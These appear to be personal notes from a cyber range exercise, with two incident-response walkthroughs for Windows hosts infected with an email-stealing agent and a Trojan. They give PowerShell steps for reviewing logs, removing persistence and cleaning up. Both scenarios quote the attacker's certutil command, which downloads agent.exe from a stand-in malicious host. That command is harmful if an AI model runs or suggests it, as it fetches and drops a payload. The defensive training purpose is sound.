 <!--
Title: ASD Live Fire Exchange Programme (GitHub Markdown Version)
Author: Simon .I
Version: 2025.03.30
Description: GitHub-compatible Markdown (GHM) version using supported HTML like <details> and <table>.
-->

<!-- ASD Programme Title -->
<h1 align="center"><strong style="font-size: 4.5rem; letter-spacing: 4px; color: navy;">Australian Signals Directorate - Live Fire Exchange Program</strong></h1>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

---

<details>

<summary><strong>🌐 LFE 1 Bangalore – Email Dumper</strong></summary>

### 🔎 Scenario: Email Dumper

A security alert from the EDR system has flagged unusual command-line activity on a Windows host belonging to a university staff member. Early indications show the use of native Windows tools to download and run an unknown payload. Your task is to investigate the host, confirm if email data was targeted, and fully remediate the system.

---

### 📊 Key Event IDs

| Event Source | ID   | Description              |
|--------------|------|--------------------------|
| Sysmon       | 1    | Process Creation         |
| Sysmon       | 3    | Network Connection       |
| Sysmon       | 11   | File Created             |
| Security Log | 4688 | Windows Process Creation |

---

### 🧱 Step 1: Initial Process Review

Use Task Manager or PowerShell to check for suspicious processes:

```powershell
taskmgr
tasklist | findstr /i "powershell certutil agent cmd"
```

Terminate suspicious entries:

```powershell
taskkill /F /PID <PID>
```

Use Process Hacker (or similar tool) to verify parent-child chain:

> Look for:
> ```
> winword.exe → powershell.exe → certutil.exe → agent.exe
> ```

---

### 📜 Step 2: Log Review (Event Viewer or Sysmon)

Open Event Viewer:

```powershell
eventvwr
```

Check:

- **Windows Logs > Security > Event ID 4688**
- **Applications and Services Logs > Microsoft > Windows > Sysmon**

Look for:

- `powershell.exe -enc`
- `certutil.exe` with full URL
- file creation of `agent.exe`
- network connections from the agent process

> Bonus: View command line arguments and parent process IDs in event details.

---

### 🧪 Step 3: Certutil Abuse

The attacker used `certutil` to download a payload directly from the command line:

```powershell
certutil -urlcache -split -f http://malicious.site/agent.exe agent.exe
```

Search for the dropped payload:

```powershell
Get-ChildItem -Path "C:\Users\<user>\AppData\Roaming" -Include agent.exe -Recurse
Get-ChildItem -Path "C:\Users\<user>\AppData\Local\Temp" -Include agent.exe -Recurse
Get-ChildItem -Path "C:\Users\<user>\Desktop","Downloads" -Include agent.exe -Recurse
```

Check file metadata and creation time:

```powershell
Get-Item "C:\Users\<user>\AppData\Roaming\agent.exe" | Select-Object Name, CreationTime, LastAccessTime
Get-AuthenticodeSignature "C:\Users\<user>\AppData\Roaming\agent.exe"
```

---

### 🧬 Step 4: Obfuscated PowerShell Decoding

The attacker used a base64-encoded payload:

```powershell
powershell.exe -enc <Base64>
```

Decode and inspect:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<Base64String>"))
```

Look for embedded downloaders or payload launchers (e.g., `iex`, `Start-Process`).

---

### 📂 Step 4.5: Identify Recently Created or Modified Files

Scan the entire system for any files that may have been dropped, modified, or staged within the last 24 hours — this can help identify payloads, droppers, or secondary artefacts.

```powershell
Get-ChildItem -Path "C:\" -File -Recurse -ErrorAction SilentlyContinue |
  Where-Object { $_.CreationTime -gt (Get-Date).AddHours(-24) -or $_.LastWriteTime -gt (Get-Date).AddHours(-24) } |
  Select-Object FullName, Length, CreationTime, LastWriteTime
```

---

### 🗓 Step 5: Check Scheduled Tasks for Persistence

List all scheduled tasks:

```powershell
schtasks /query /fo LIST /v
```

Look for tasks that point to suspicious `.exe`, `.bat`, or PowerShell commands.

Remove confirmed malicious tasks:

```powershell
Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

---

### 🧼 Step 6: Check Registry Autoruns

Review autorun keys:

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

Remove entries pointing to `agent.exe`:

```powershell
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🌐 Step 7: Network Connections

Check for active or historical network sessions:

```powershell
netstat -bano
```

Correlate PID to process:

```powershell
tasklist | findstr <PID>
```

---

### 📂 Step 8: Investigate Email Data Access

The agent is designed to steal Outlook email archives.

Search for `.pst` and `.ost` files:

```powershell
Get-ChildItem -Path "C:\Users" -Include *.pst,*.ost -File -Recurse -ErrorAction SilentlyContinue
```

Check last access time:

```powershell
Get-Item "C:\Users\<user>\AppData\Local\Microsoft\Outlook\*.ost" | Select-Object Name, LastAccessTime
```

---

### ✅ Step 9: Remediation

Terminate running payload:

```powershell
taskkill /F /PID <PID>
```

Delete the malicious executable:

```powershell
Remove-Item -Path "C:\Users\<user>\AppData\Roaming\agent.exe" -Force
```

Remove registry and task persistence:

```powershell
Unregister-ScheduledTask -TaskName "<Name>" -Confirm:$false
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🧾 Analyst Notes

- Isolate the host from the network to prevent C2 callbacks
- Submit `agent.exe` to a sandbox or malware analysis platform
- Check other endpoints for indicators (e.g., certutil usage or registry persistence)

---

### 🧠 Key Takeaways

- LOLBAS abuse (`certutil`, `powershell -enc`) remains a common tactic for initial payload delivery
- Obfuscated PowerShell is frequently used to evade detection and download malware
- Email data (`.pst`/`.ost`) is highly targeted and should be monitored for access
- Registry and scheduled tasks remain common persistence techniques
- Combining Sysmon and Event Viewer logs paints a full picture of the infection timeline

</details>

---

<details>

<summary><strong>🌋 LFE 2 Jakarta – Killer Trojan</strong></summary>

### 🔎 Scenario: Killer Trojan

An EDR alert has flagged suspicious behaviour on a user workstation. Analysis indicates a Trojan was downloaded and executed using built-in Windows utilities, with attempts to establish persistence and possibly access email data. Your goal is to investigate the host, confirm the infection method, locate the payload, and eradicate all signs of compromise.

---

### 📊 Key Event IDs

| Event Source | ID   | Description              |
|--------------|------|--------------------------|
| Sysmon       | 1    | Process Creation         |
| Sysmon       | 3    | Network Connection       |
| Sysmon       | 11   | File Created             |
| Security Log | 4688 | Windows Process Creation |

---

### 🧱 Step 1: Initial Process Investigation

List active processes using Task Manager or terminal:

```powershell
taskmgr
tasklist | findstr /i "powershell certutil cmd agent rundll32 regsvr32"
```

Terminate suspicious binaries:

```powershell
taskkill /F /PID <PID>
```

Check parent-child process lineage:

> Example chain:
> ```
> explorer.exe → powershell.exe → certutil.exe → agent.exe
> ```

Tools like **Process Hacker** or **Sysmon event ID 1** can help confirm this chain.

---

### 📜 Step 2: Log Review

Open Event Viewer:

```powershell
eventvwr
```

Check the following:

- **Security > Event ID 4688**: Process Creation
- **Sysmon > Event ID 1**: Process Creation  
- **Sysmon > Event ID 11**: File Creation  
- **Sysmon > Event ID 3**: Network Connection

Look for:

- `certutil.exe` downloads
- agent.exe execution
- any outbound connection attempts

---

### 🧪 Step 3: Certutil Payload Download

The attacker downloaded a payload using:

```powershell
certutil -urlcache -split -f http://malicious.site/agent.exe agent.exe
```

Check for known drop paths:

```powershell
Get-ChildItem -Path "C:\Users\<user>\AppData\Roaming" -Include agent.exe -Recurse
Get-ChildItem -Path "C:\Users\<user>\AppData\Local\Temp" -Include agent.exe -Recurse
```

Optional Defender scan:

```powershell
Start-MpScan -ScanType CustomScan -ScanPath "C:\Users\<user>\AppData\Roaming\agent.exe"
```

Inspect file metadata:

```powershell
Get-Item "C:\Users\<user>\AppData\Roaming\agent.exe" | Select-Object Name, CreationTime, LastAccessTime
Get-AuthenticodeSignature "C:\Users\<user>\AppData\Roaming\agent.exe"
```

---

### 🧬 Step 4: Obfuscated PowerShell Execution (if used)

Check for base64-encoded PowerShell commands in logs:

```powershell
powershell.exe -enc <Base64>
```

Decode with:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<Base64String>"))
```

Look for:
- `Start-Process`, `Invoke-WebRequest`
- Calls to run `agent.exe` or add registry tasks

---

### 📂 Step 4.5: Identify Recently Created or Modified Files

Scan the entire system for any files that may have been dropped, modified, or staged within the last 24 hours — this can help identify payloads, droppers, or secondary artefacts.

```powershell
Get-ChildItem -Path "C:\" -File -Recurse -ErrorAction SilentlyContinue |
  Where-Object { $_.CreationTime -gt (Get-Date).AddHours(-24) -or $_.LastWriteTime -gt (Get-Date).AddHours(-24) } |
  Select-Object FullName, Length, CreationTime, LastWriteTime
```

---

### 🗓 Step 5: Scheduled Task Persistence

List scheduled tasks and review commands:

```powershell
schtasks /query /fo LIST /v
```

Look for:
- Custom task names
- Execution of `agent.exe`, `.bat` scripts, or PowerShell

Delete malicious tasks:

```powershell
Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

---

### 🧼 Step 6: Registry Autorun Persistence

Query common persistence keys:

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

Remove malicious entries:

```powershell
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🌐 Step 7: Network Connection Check

List outbound connections:

```powershell
netstat -bano
```

Correlate PIDs to process names:

```powershell
tasklist | findstr <PID>
```

> Note any strange external IPs or repeated attempts to connect to the same destination.

---

### 📁 Step 8: Search for Email Artefacts or Exfil

While no confirmed exfiltration occurred, the Trojan may target email data.

```powershell
Get-ChildItem -Path "C:\Users" -Include *.pst,*.ost -File -Recurse -ErrorAction SilentlyContinue
```

Check access timestamps:

```powershell
Get-Item "C:\Users\<user>\AppData\Local\Microsoft\Outlook\*.ost" | Select-Object Name, LastAccessTime
```

---

### ✅ Step 9: Remediation

Terminate process:

```powershell
taskkill /F /PID <PID>
```

Remove agent binary:

```powershell
Remove-Item -Path "C:\Users\<user>\AppData\Roaming\agent.exe" -Force
```

Clean up persistence:

```powershell
Unregister-ScheduledTask -TaskName "<Name>" -Confirm:$false
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🧾 Analyst Notes

- Isolate the machine from the network
- Submit `agent.exe` to an analysis platform
- Review other hosts for indicators: certutil use, autorun registry entries, matching hashes
- Consider implementing command-line logging or AppLocker

---

### 🧠 Key Takeaways

- LOLBAS techniques like `certutil` are frequently used to bypass security software
- Roaming and Temp folders are often used for staging malware
- Registry Run keys and Scheduled Tasks are standard persistence methods
- Email data remains a high-value target — access logs matter
- Event logs and process lineage tracking (via Sysmon) are critical for full investigation

</details>

---
